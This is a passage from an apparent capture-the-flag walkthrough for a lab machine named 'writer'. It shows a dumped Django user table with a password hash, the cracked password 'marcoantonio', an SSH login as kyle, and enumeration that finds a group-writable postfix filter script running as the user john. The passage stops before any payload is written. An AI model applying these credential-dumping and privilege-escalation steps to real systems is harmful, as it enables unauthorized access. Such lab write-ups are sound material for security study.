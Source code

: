 ```console
<ame,password,is_staff,is_active from dev.auth_user;
+----------+------------------------------------------------------------------------------------------+----------+-----------+
| username | password                                                                                 | is_staff | is_active |
+----------+------------------------------------------------------------------------------------------+----------+-----------+
| kyle     | pbkdf2_sha256$260000$wJO3ztk0fOlcbssnS1wJPD$bbTyCB8dYWMGYlz4dSArozTY7wcZCS7DV6l5dpuXM4A= |        1 |         1 |
+----------+------------------------------------------------------------------------------------------+----------+-----------+
1 row in set (0.001 sec)
```

Crack the hash value: `kyle:marcoantonio` and login using ssh.

```console
└─╼$ ssh kyle@$IP
The authenticity of host '10.10.11.101 (10.10.11.101)' can't be established.
ED25519 key fingerprint is SHA256:EcmD06Im3Ox+/6cWwJX2eaLFPlgm/TO0Jw20KJK1XSw.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.101' (ED25519) to the list of known hosts.
kyle@10.10.11.101's password:
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-80-generic x86_64)
...
Last login: Wed Jul 28 09:03:32 2021 from 10.10.14.19
kyle@writer:~$ id
uid=1000(kyle) gid=1000(kyle) groups=1000(kyle),997(filter),1002(smbgroup)
kyle@writer:~$ uname -a
Linux writer 5.4.0-80-generic #90-Ubuntu SMP Fri Jul 9 22:49:44 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
```

### kyle -> john

kyle has a group called `filter` and enumerate this group:

```console
kyle@writer:~$ find / -group filter -type f 2>/dev/null -ls
    16282      4 -rwxrwxr-x   1 root     filter       1021 Feb  6 09:10 /etc/postfix/disclaimer
kyle@writer:~$ cat /etc/postfix/master.cf
#
# Postfix master process configuration file.  For details on the format
# of the file, see the master(5) manual page (command: "man 5 master" or
# on-line: http://www.postfix.org/master.5.html).
#
# Do not forget to execute "postfix reload" after editing this file.
#
# ==========================================================================
# service type  private unpriv  chroot  wakeup  maxproc command + args
#               (yes)   (yes)   (no)    (never) (100)
# ==========================================================================
smtp      inet  n       -       y       -       -       smtpd -o content_filter=dfilt:
...
dfilt     unix  -       n       n       -       -       pipe
  flags=Rq user=john argv=/etc/postfix/disclaimer -f ${sender} -- ${recipient}
```
